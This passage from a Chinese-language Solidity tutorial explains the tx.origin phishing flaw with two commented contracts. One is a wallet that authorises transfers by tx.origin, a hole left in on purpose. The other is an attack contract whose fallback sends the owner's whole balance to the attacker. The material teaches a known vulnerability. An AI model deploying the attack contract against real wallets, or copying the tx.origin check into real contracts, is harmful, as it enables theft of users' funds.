 ## 解說『solidity 智能合约中 tx.origin 的正确使用场景』

看完上面對 tx.origin 與 msg.sender 的解釋與範例後，現在我們再回來看[這篇文章](https://www.itread01.com/content/1563448805.html)。

我們可以看到文章中有提到兩個合約，一個是漏洞合約、一個是攻擊漏洞的合約，再來看到描述寫：『攻擊者欺騙你用正常合约擁有者的地址向攻擊合约轉帳』，但看了攻擊合約的程式碼後我覺得應該是:『攻擊者欺騙合約擁有者用正常合約去打攻擊合約』，因為這樣 `TxUserWallet(msg.sender)` 的 `msg.sender` 才會是合約地址。

因為題目有點不清楚，所以這邊直接用兩種角度來看：

1. 正常合約『已被 **Deploy**』，因此將不會觸發 Constructor。
2. 正常合約『尚未 **Deploy**』，建立合約實例觸發 Constructor。

### 正常合約已被 Deploy，因此將不會觸發 Constructor

#### 漏洞合約解釋

```solidity=
pragma solidity ^0.4.11;

contract TxUserWallet {
    address owner;
    // 因為在 Deploy 時就被呼叫，所以 owner = 合约擁有者
    function TxUserWallet() public {
        owner = msg.sender;
    }

    function transferTo(address dest, uint amount) public {
        // tx.origin 指的是發起整個合約操作的人，
        // 因今天是 擁有者 透過 攻擊合約來呼叫這個(漏洞)合約
        // 所以 tx.origin 會是 擁有者
        // 因此會通過 require 檢查
        require(tx.origin == owner);
        // 透過 攻擊合約呼叫 transferTo 時，
        // 傳入的 dest 為 攻擊者的地址，因此會將錢轉給攻擊者。
        dest.transfer(amount);
    }
}
```

#### 攻擊合約解釋

```solidity=
pragma solidity ^0.4.11;

interface TxUserWallet {
    function transferTo(address dest, uint amount) public;
}

contract TxAttackWallet {
    address owner;
    // 攻擊合約 Deploy 時觸發，因此 owner 為攻擊者地址
    function TxAttackWallet() public {
        owner = msg.sender;
    }
    // 擁有者呼叫此合約時，會自動呼叫 fallback function
    // 呼叫 TxUserWallet 的 transferTo function(攻擊者地址,金額)
    function () public {
        TxUserWallet(msg.sender).transferTo(owner, msg.sender.balance);
    }
}
```
